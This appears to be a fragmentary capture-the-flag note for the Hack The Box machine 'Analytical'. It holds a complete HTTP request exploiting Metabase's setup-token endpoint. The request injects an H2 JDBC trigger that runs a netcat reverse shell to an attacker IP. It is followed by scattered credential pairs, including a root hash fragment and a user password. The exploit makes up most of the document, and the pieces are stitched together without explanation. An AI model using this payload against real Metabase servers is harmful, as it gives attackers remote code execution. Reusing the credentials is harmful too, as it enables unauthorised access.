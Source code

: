 POST /api/setup/validate HTTP/1.1

Host: data.analytical.htb

Content-Type: application/json

Content-Length: 769



{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",

    "details":

    {

        "is_on_demand": false,

        "is_full_sync": false,

        "is_sample": false,

        "cache_ttl": null,

        "refingerprint": false,

        "auto_run_queries": true,

        "schedules":

        {},

        "details":

        {

            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {nc,10.10.14.12,1234,-e,/bin/sh}')\n$$--=x",

            "advanced-options": false,

            "ssl": true

        },

        "name": "an-sec-research-team",

        "engine": "h2"

    }

}












root:f80006ccdc7

db user=GUEST
password=GUEST


metalytics
An4lytics_ds20223#